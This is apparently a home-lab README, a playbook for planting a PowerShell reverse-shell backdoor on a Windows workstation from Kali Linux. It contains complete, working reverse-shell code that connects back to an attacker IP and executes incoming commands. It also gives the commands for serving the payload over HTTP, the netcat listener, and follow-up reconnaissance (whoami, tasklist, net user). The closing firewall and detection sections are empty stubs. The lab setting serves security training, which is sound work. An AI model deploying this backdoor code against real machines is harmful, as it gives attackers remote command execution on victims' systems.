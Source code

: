 
# Reverse Shell Backdoor Attack Playbook

## Overview

This project demonstrates how to create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the victim's machine.

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective
1. Create a malicious PowerShell script (malicious.ps1) to establish a reverse shell backdoor.
2. Use a web server to serve the payload to the target Windows machine.
3. Make the Windows user download and execute the malicious script.
4. Gain remote access to the victim's machine and execute commands of the attacker's choice.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:
```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

### 5. **Execute Commands on the Target Machine**

After successfully establishing the reverse shell, I could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```



Pfsense rules...
CrowdSec ruless...
